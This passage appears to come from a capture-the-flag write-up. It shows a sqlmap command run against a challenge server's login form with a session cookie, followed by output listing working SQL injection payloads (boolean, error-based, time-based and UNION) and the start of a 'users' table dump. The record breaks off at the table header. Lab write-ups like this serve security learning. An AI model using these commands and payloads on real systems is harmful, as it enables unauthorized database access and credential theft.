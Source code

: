 It had one table, users. Let's dump this table:  -D TopSecret -T users --dump(-D to choose DB, -T to choose table and --dump to dump the table).

[dump.txt]({{site.url}}/assets/rc3/TopSecret/dump.txt)

```
viviturtle@vivi-laptop:~$ sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=982677f8035354b556b6d80b00353187b77a997cd28e49bfda777e5c91f80dafc61114c392a70b95bd4fe12ddb727ab9f9d19032a8a21f393517af1635d24f9d' -p username -D TopSecret -T users --dump
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150919}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:39:00

[18:39:01] [INFO] resuming back-end DBMS 'mysql' 
[18:39:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=test' AND 7074=7074 AND 'UonP'='UonP

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' AND (SELECT 7296 FROM(SELECT COUNT(*),CONCAT(0x71717a6271,(SELECT (ELT(7296=7296,1))),0x7176627071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'DRrf'='DRrf

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: username=test' AND (SELECT * FROM (SELECT(SLEEP(5)))XSaB) AND 'wzNJ'='wzNJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=test' UNION ALL SELECT CONCAT(0x71717a6271,0x4f72664d694671504f4f,0x7176627071),NULL-- 
---
[18:39:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0
[18:39:01] [INFO] fetching columns for table 'users' in database 'TopSecret'
[18:39:01] [INFO] fetching entries for table 'users' in database 'TopSecret'
[18:39:01] [INFO] analyzing table dump for possible password hashes
Database: TopSecret
Table: users
[32 entries]
+----+-------+--------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
| id | admin | username           | password                                                                                                                         | session                                                                                                                          |
+----+-------+--------------------+----------------------------------------------------------------------------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------+
```